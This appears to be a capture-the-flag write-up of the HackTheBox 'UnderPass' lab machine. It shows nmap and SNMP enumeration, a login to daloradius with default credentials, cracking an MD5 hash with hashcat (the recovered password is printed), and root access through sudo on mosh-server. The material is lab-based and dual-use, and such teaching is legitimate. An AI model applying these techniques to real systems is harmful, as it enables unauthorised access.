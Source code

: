 ```yaml
---
title: HackTheBox - UnderPass
date: 14-05-2025
categories: [HackTheBox, Linux Easy]
tags: [UDP pentesting, SNMP service, daloradius, default credentials, mosh-server]     # TAG names should always be lowercase
image:
  path: "../assets/htb/underpass/underpass.png"
---
```


## Overview
UnderPass is a machine that runs Linux with an easy difficulty level. During enumeration, I used `snmpcheck` to probe SNMP Services (UDP port 161). The tool revealed a domain name in its output. Further research indicated the server was associated with daloradius, a RADIUS management tool. Searching for the daloradius on Google led me to a daloradius login portal.  Using default credentials, I gained access. Within the dashboard, I navigate to the `User Management` section and discovered stored SSH credentials. These credentials allowed me to log into the machine via SSH as a low-privilege user. The user had sudo privileges to execute `mosh-server` as root, By exploiting a misconfiguration in the `/etc/sudoers` file--I escalated privileges to root.

## Information Gathering
During the information gathering phase, I ran Nmap to enumerate open ports and services. The scan results appeared unusual: while port 80/tcp typically reveals a domain name (via HTTP headers or page content), this machine displayed only the default Apache `http-title`. Since this suggested a lack of custom web content, I prioritized other attack vectors.

```shell
➜ underpass  nmap -sCV --min-rate 1000 -T4 10.10.11.48 -oA nmap/underpass -Pn
Starting Nmap 7.95 ( https://nmap.org ) at xxxx-xx-xx xx:xx UTC
Nmap scan report for 10.10.11.48 (10.10.11.48)
Host is up (0.061s latency).
Not shown: 911 filtered tcp ports (no-response), 87 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

During further reconnaissance, I enumerated UDP ports and identified that 161/udp was revealing SNMP (Simple Network Management Protocol) running on the service.

```shell
➜ underpass  sudo nmap -sU --top-ports 100 --min-rate 1000 -T4 10.10.11.48 -oA nmap/udp -Pn
Starting Nmap 7.95 ( https://nmap.org ) at xxxx-xx-xx xx:xx UTC
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (1.5s latency).
Not shown: 985 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
137/udp   closed netbios-ns
161/udp   open   snmp
<SNIP>
```
{: .nolineno}

I executed `snmpcheck` to enumerate the SNMP service. This revealed domain names and notable details, such as a `daloradius` server (a RADIUS management platform) and user email addresses. 

```shell
➜ underpass  snmpcheck 10.10.11.48
snmpcheck v1.9.1 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
<SNIP>
```
{: .nolineno}

After discovering the domain names, I added them to the `/etc/hosts` file to resolve the domain locally. Then I researched `daloradius` and located its GitHub repository. By typing `login.php` in the search bar it was leading to the login portal.

![daloradius repository](../assets/htb/underpass/github.jpg)

## Exploitation
Using default credentials for the 'operator' role, I logged into the daloradius dashboard and was redirected to the `User Management` section. There, I discovered stored credentials, including a username and an associated password hash.

![User Management](../assets/htb/underpass/creds.jpg)
After obtaining the stored credentials, I used `hashcat` to crack the password hash (identified as mode 0 | MD5). Due to hardware limitations preventing local execution, I leveraged a VPS (Virtual Private Server) for resource-intensive password cracking.

```shell
➜ underpass  hashcat hash.txt --identify
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
<SNIP>

➜ underpass  scp -P xx hash.txt root@konek.securityhub.id:~/hash
root@konek.securityhub.id's password:
hash.txt                                                100%   33     0.1KB/s   00:00

root@6c483be0c2ec:~/hash# hashcat -m 0 hash.txt ../rockyou.txt
<SNIP>
412dd4759978acfcc81deab01b382403:underwaterfriends
<SNIP>
```
{: .nolineno}

## Post-Exploitation
After obtaining the plaintext password from the cracked hash, I authenticated to the target system via SSH service as the `svcMosh` user. Running `sudo -l` revealed that this user could execute `/usr/bin/mosh-server` with root privileges without a password. Further research into `mosh-server` led me to its manual page, which indicated the tool can be executed locally alongside `mosh-client` to establish a connection.

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo mosh-server

MOSH CONNECT 60001 Y0a2q1Ocf1QHf+mwpHXwDg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3893]
```
{: .nolineno}

After exporting the encryption key generated by `mosh-server` into the `MOSH_KEY` environment variable, I executed `mosh-client` by specifying the target IP address and UDP port. This established a connection to the server with the pre-shared key.

```shell
➜ underpass  MOSH_KEY=Y0a2q1Ocf1QHf+mwpHXwDg mosh-client 10.10.11.48 60001
```
{: .nolineno}

![img-description](../assets/htb/underpass/root.jpg)
